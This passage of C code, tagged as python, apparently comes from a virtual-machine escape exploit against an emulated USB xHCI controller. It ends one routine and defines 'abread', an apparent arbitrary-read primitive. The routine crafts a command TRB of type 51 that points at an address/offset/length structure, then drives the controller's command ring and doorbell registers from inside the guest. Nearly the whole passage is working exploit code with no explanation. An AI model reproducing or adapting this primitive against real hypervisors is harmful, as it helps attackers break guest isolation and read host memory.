 ```python {hide=true}

    memset(cmd, 0, sizeof(XHCI_COMMAND_TRB));
    cmd->gen.type = 51;
    cmd->gen.cycle = XHCI_CRCR_RCS;
    cmd->adr.ctx_ptr = content_pa;
    cmd_pa = gva_to_gpa(cmd);
    __sync_synchronize();

    // stop
    mmio_write32((xhci_mmio_mem + USBCMD), 0);
    // set pThis->crcr
    mmio_write32((xhci_mmio_mem + CRCRL), cmd_pa | XHCI_CRCR_RCS);
    // start
    mmio_write32((xhci_mmio_mem + USBCMD), XHCI_CMD_RS);
    // notify
    mmio_write32((xhci_mmio_mem + XHCI_DOORBELL_OFFSET), 0);
    __sync_synchronize();
}

void abread(uint64_t addr, uint32_t off, uint32_t len) {
    XHCI_COMMAND_TRB *cmd = (XHCI_COMMAND_TRB *)data_mem;
    content_t *content = (content_t *)(data_mem + 0x100);

    uint64_t cmd_pa = 0;
    uint64_t content_pa = 0;
    uint32_t res = 0;

    memset(content, 0, sizeof(content_t));
    content->addr = gva_to_gpa(addr);
    content->off = off;
    content->len = len;
    content->flag = PhysWrite;
    content_pa = gva_to_gpa(content);

    memset(cmd, 0, sizeof(XHCI_COMMAND_TRB));
    cmd->gen.type = 51;
    cmd->gen.cycle = XHCI_CRCR_RCS;
    cmd->adr.ctx_ptr = content_pa;
    cmd_pa = gva_to_gpa(cmd);
    __sync_synchronize();

    // stop
    mmio_write32((xhci_mmio_mem + USBCMD), 0);
    // set pThis->crcr
    mmio_write32((xhci_mmio_mem + CRCRL), cmd_pa | XHCI_CRCR_RCS);
    // start
    mmio_write32((xhci_mmio_mem + USBCMD), XHCI_CMD_RS);
    // notify
    mmio_write32((xhci_mmio_mem + XHCI_DOORBELL_OFFSET), 0);
    __sync_synchronize();
}
```

